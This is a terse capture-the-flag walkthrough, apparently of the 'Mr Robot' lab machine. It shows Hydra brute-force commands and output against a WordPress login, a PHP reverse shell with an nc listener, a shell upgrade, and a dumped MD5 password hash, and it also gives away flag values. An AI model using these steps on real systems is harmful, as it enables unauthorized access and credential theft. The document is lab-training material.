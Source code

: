 Found Robot.txt: http://10.10.239.79/robots.txt

First Flag: http://10.10.239.79/key-1-of-3.txt

`073403c8a58a1f80d943455fb30724b9`

## Wordpress

http://10.10.239.79/wp-login

```
hydra -L fsocity.dic -p test 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 20:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.239.79:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.239.79   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

`Elliot`

```
sort fsocity.dic | uniq > fsocity_sorted.dic
```

`hydra -l Elliot -P fsocity_sorted.dic 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"`

```
[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

[http://10.10.239.79/wp-admin/](http://10.10.239.79/wp-admin/)

php_reverse_shell

nc -nlvp 9001

![](2020-09-29_22-00.png)

[http://10.10.239.79/pwned](http://10.10.239.79/pwned)

```
python -c "import pty; pty.spawn('/bin/bash')"

daemon@linux:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ ls -la /home/robot
ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

export TERM=xterm

cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```